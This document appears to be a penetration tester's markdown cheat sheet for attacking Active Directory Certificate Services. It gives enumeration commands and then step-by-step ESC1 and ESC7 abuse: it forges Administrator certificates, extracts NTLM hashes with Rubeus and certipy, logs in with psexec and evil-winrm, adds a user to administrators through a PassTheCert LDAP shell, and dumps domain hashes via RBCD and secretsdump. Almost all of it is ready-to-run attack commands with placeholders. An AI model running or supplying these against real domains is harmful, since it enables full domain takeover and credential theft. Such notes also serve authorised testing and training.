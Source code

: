 ```yaml
---
title: "ADCS"
date: 2024-7-23
tags: ["certificate services", "active driectory", "ad", "Windows", "certify", "adcs", "esc", "PassTheCert"]
---
```


---
### Enum (From Linux)

#### certipy-ad

```bash
certipy-ad find -u <USER> -p <PASSWORD> -target <TARGET> -text -stdout -vulnerable
```

#### nxc

```bash
nxc ldap <TARGET> -u <USER> -p <PASSWORD> -M adcs
```

### Enum (From Windows)

#### Powershell

```powershell
# Check ADCS service
net start | findstr /i cert
```

```powershell
# Check env
certutil
```

```powershell
# List cert templates
certutil -catemplates
```

#### Certify.exe

```powershell
# Get info of each template
.\certify.exe find
```

```powershell
# Find vuln templates
.\certify.exe find /vulnerable /currentuser
```

#### ADCSTemplate

[ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate)

```powershell
import-module .\ADCSTemplate.psm1
```

```powershell
get-adcstemplate | fl displayname
```

### ESC1

```
+----------------------------------------------------------+
| Enabled                        : True                    |
| Client Authentication          : True                    |
| Enrollee Supplies Subject      : True                    |
| Certificate Name Flag          : EnrolleeSuppliesSubject |
| Requires Management Approval   : False                   |
| Authorized Signatures Required : 0                       |
+----------------------------------------------------------+
```

#### Abuse #1: Add smartcard logon

[PoshADCS](https://github.com/cfalta/PoshADCS)

```powershell
. .\PowerView.ps1
```

```powershell
. .\ADCS.ps1
```

```powershell
# Add smartcart logon
Get-SmartCardCertificate -Identity Administrator -TemplateName <VULN_TEMPLATE> -NoSmartCard -Verbose
```

```powershell
# Get Cert_Thumbprint
Get-ChildItem cert:\currentuser\my -recurse
```

```powershell
# Get NTLM hash
.\rubeus.exe asktgt /user:Administrator /certificate:<Thumbprint> /getcredentials /show /nowrap
```

```bash
# Remote
impacket-psexec -hashes :<HASH> administrator@<DOMAIN> cmd.exe
```

#### Abuse #2: Set alternative name (From Windows)

```powershell
# Generate Cert with altname
.\Certify.exe request /ca:<CA_NAME> /template:<VULN_TEMPLATE> /altname:administrator
```

```bash
# Copy -----BEGIN RSA PRIVATE KEY----- ... -----END CERTIFICATE----- to cert.pem
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```powershell
# Get NTLM hash
.\rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

```bash
# Remote
evil-winrm -i <TARGET> -u administrator -H <HASH>
```

#### Abuse #2: Set alternative name (From Linux)

```bash
# Generate Cert with altname
certipy-ad req -u <USER> -p <PASSWORD> -target <TARGET> -upn administrator@<DOMAIN> -ca <CA_NAME> -template <VULN_TEMPLATE>
```

```bash
# Get NTLM hash
sudo ntpdate -s <DC> && certipy-ad auth -pfx administrator.pfx
```

```bash
# Remote
evil-winrm -i <TARGET> -u administrator -H <HASH>
```

#### Abuse #3: Set msPKI-Certificate-Name-Flag

[ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate)

```powershell
import-module .\ADCSTemplate.psm1
```

```powershell
Export-ADCSTemplate -displayName <VULN_TEMPLATE> > template.json
```

```powershell
$template = cat template.json -raw | ConvertFrom-Json
```

```powershell
$template.'msPKI-Certificate-Name-Flag' = 0x1
```

```powershell
$template | ConvertTo-Json | Set-Content template_mod.json
```

```powershell
New-ADCSTemplate -DisplayName "vuln_esc1" -Publish -JSON (cat template_mod.json -raw)
```

```powershell
Set-ADCSTemplateACL -DisplayName "vuln_esc1" -type allow -identity '<DOMAIN>\<USER>' -enroll
```

```bash
# Generate Cert with altname
certipy-ad req -u <USER> -p <PASSWORD> -target <TARGET> -upn administrator@<DOMAIN> -ca <CA_NAME> -template vuln_esc1
```

```bash
# Get NTLM hash
sudo ntpdate -s <DC> && certipy-ad auth -pfx administrator.pfx
```

```bash
# Remote
evil-winrm -i <TARGET> -u administrator -H <HASH>
```

### Workaround: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP

#### Create key and crt from pfx

```bash
# Create key from pfx
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
```

```bash
# Create cert from pfx
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
```

[PassTheCert](https://github.com/AlmondOffSec/PassTheCert)

#### Path #1: LDAP Shell

```bash
# LDAP shell
python3 PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain <DOMAIN> -dc-ip <DC>
```

```bash
# Add user to administrators group within the ldap shell
add_user_to_group <USER> administrators
```

```bash
# Remote
evil-winrm -i <TARGET_DOMAIN> -u <USER> -p <PASSWORD>
```

#### Path #2: RBCD

```bash
python3 PassTheCert/Python/passthecert.py -action write_rbcd -delegate-to '<TARGET_COMPUTER>$' -delegate-from 'Evil_Computer$' -crt administrator.crt -key administrator.key -domain <DOMAIN> -dc-ip <DC>
```

```bash
sudo ntpdate -s <DC> && python3 impacket-getST -spn 'cifs/<TARGET_DOMAIN>' -impersonate Administrator '<DOMAIN>/Evil_Computer$:<PASSWORD>'
```

```bash
export KRB5CCNAME=Administrator.ccache
```

```bash
impacket-secretsdump <DOMAIN>/administrator@<TARGET_DOMAIN> -k -no-pass -just-dc-ntlm
```

```bash
# Remote
evil-winrm -i <TARGET_DOMAIN> -u administrator -H <HASH>
```

### ESC7

```
+---------------------+
| Access Right        |
|=====================|
| Manage CA           |
| Manage Certificates |
+---------------------+
```

```bash
# Use ManageCA privilege to add manage certificates permission
certipy-ad ca -ca <CA_NAME> -add-officer <USER> -u <USER>@<DOMAIN> -p <PASSWORD>
```

```bash
# Check
certipy-ad find -dc-ip <DC> -ns <DC_IP> -u <USER>@<DOMAIN> -p <PASSWORD> -vulnerable -stdout
```

```bash
# Request Cert based on SubCA (Take note: Request ID)
certipy-ad req -ca <CA_NAME> -target <TARGET_DOMAIN> -template SubCA -upn administrator@<DOMAIN> -u <USER>@<DOMAIN> -p <PASSWORD>
```

```bash
# Issue request using ManageCA and Manage Certificates privilege
certipy-ad ca -ca <CA_NAME> -issue-request <Request_ID> -u <USER>@<DOMAIN> -p <PASSWORD>
```

```bash
certipy-ad req -ca <CA_NAME> -target <TARGET_DOMAIN> -retrieve <Request_ID> -u <USER>@<DOMAIN> -p <PASSWORD>
```

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip <DC>
```

```bash
# Remote
evil-winrm -i <TARGET> -u administrator -H <HASH>
```

<br>